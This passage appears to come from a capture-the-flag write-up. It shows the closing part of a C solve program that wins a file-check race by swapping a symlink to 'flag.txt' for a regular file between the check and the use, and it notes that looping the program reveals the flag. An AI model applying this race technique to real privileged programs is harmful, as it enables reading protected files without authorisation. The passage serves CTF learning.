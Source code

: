 ```
        usleep(4600);
        unlink(filename_short);

        // make file with same name, but not symlink: this is because
        // filename.c_str() will return the actual filename, not "flag.txt"
        // and the perms check will pass
        close(open(filename_short, O_WRONLY|O_CREAT));

        waitpid(pid, 0, 0);
        unlink(filename_short);
    }
}
```

Running this consecutively with `while : do ./solve done` reveals the flag.
